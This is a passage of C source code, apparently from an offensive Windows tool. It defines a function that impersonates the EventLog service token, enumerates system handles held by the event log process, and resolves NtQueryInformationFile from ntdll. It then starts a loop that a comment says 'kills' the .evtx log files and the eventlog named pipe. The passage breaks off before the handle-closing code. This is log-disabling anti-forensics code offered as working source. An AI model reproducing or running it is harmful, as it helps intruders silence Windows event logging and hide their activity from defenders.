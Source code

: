 
```c
DWORD CloseEvtxFileHandle(PSYSTEM_HANDLE_INFORMATION pHandleInfo, DWORD dwPidEventlog, HANDLE hTokenEvtLog, HANDLE hProcessEventlogduplicatequery) {
	DWORD dwSuccess = FAIL;
	DWORD dwSuccessall = SUCCESS;
	DWORD dwownProcessID = 0;
	dwownProcessID = GetCurrentProcessId();

	DWORD dwHandleCount = 0;

	BYTE bHandleTypeNumberFile = 0;

	dwHandleCount = pHandleInfo->HandleCount;
	HANDLE hmNtdll = NULL;

	//Get Object Type Numbers for File Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == 0x12019f && pSystemHandle->ProcessId == dwownProcessID) {
			bHandleTypeNumberFile = pSystemHandle->ObjectTypeNumber;
			break;
		}
	}

	//We need only the Eventlog token for the handle duplication from the eventlog process
	dwSuccess = ImpersonateLoggedOnUser(hTokenEvtLog);
	if (dwSuccess == FAIL) {
		printf("[-] Could not Impersonate EventLog Token\n");
	}
	
	//Get Ntdll Handle
	hmNtdll = GetModuleHandleA("ntdll.dll");
	if (hmNtdll == NULL) {
		printf("[-] Could not get NTDLL Module Handle\n");
		return FAIL;
	}

	//Create Pointer to NtQueryInformationFile Function
	_NtQueryInformationFile pNtQueryInformationFile = NULL;
	pNtQueryInformationFile = (_NtQueryInformationFile)(GetProcAddress(hmNtdll, "NtQueryInformationFile"));
	if (pNtQueryInformationFile == NULL) {
		printf("[-] Could not get Pointer to the NtQueryInformationFile function\n");
		return FAIL;
	}

	NTSTATUS ntStatus = STATUS_SUCCESS;
	IO_STATUS_BLOCK iostatusblock = { 0x00 };
	FILE_NAME_INFORMATION FileNameInformationSpace = { 0x00 };
	ULONG FileNamelength = 0;

	//Get File Handles
	for (DWORD dwCounterHandle = 0; dwCounterHandle < dwHandleCount; dwCounterHandle++) {
		PSYSTEM_HANDLE pSystemHandle = NULL;
		pSystemHandle = &pHandleInfo->Handles[dwCounterHandle];
		if (pSystemHandle->GrantedAccess == (ACCESS_MASK)0x12019f && pSystemHandle->ProcessId == (ULONG)dwPidEventlog && pSystemHandle->ObjectTypeNumber == bHandleTypeNumberFile) {
			DWORD dwSuccess = FAIL;
			HANDLE hFile = NULL;

			//Kills Evtx + eventlog Named Pipe
```